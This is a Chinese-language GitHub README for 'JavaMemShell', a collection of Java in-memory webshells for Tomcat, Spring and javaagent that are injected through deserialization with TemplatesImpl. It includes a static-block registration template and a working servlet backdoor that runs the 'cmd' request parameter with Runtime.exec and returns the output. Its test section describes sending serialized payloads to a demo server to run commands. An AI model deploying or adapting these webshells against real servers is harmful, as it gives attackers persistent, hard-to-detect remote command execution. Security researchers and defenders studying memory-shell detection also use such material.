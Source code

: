 ## JavaMemShell
记录总结Java内存马的类型和相关代码示例

## 项目说明

**JavaMemShell**

利用Java反序列化时TemplatesImpl类加载字节码实现的内存马示例

**JavaMemShell-Web**

Spring 5.2.3 和Tomcat8服务端的Demo，接受参数进行反序列化，整理后上传。

## Java内存马类型

**tomcat** 

1. Filter型
2. Servlet型
3. Listener型
4. TomcatValue型

**spring**

1. controller型
2. Interceptor型

**javaagent**

1. 文件落地，持久化

## 核心代码

每种类型shell动态注册的执行逻辑在静态代码块中，由于反序列化需要，实现类需要继承`AbstractTranslet`

```java
static {
        try{
            xxx
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```

获取request和response，执行命令并进行回显的逻辑在 `doFilter`，`requestDestroyed` ，`service`等方法中，如有需要自行替换，示例：

```java
public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        HttpServletRequest request = (HttpServletRequest)servletRequest;
        HttpServletResponse response =  (HttpServletResponse)servletResponse;

        String method = request.getMethod();
        if ("GET".equals(method)){
            String cmd = request.getParameter("cmd");
            if (cmd != null){
                Process process = Runtime.getRuntime().exec(cmd);
                Scanner s = new Scanner(process.getInputStream()).useDelimiter("\\a");;
                String output = s.hasNext() ? s.next() : "";
                PrintWriter writer = response.getWriter();
                writer.write(output);
                writer.flush();
                writer.close();
            }
        }
    }
```

## 测试

以springInterceptor内存代码为例，将生成序列化的base64代码发送到服务端

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653798985180-c6672740-00d3-4389-85d9-0e4f73cacb74.png)

执行命令：

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653799203090-f9ad191f-288d-4ecb-8a6d-6fdd0591405e.png)

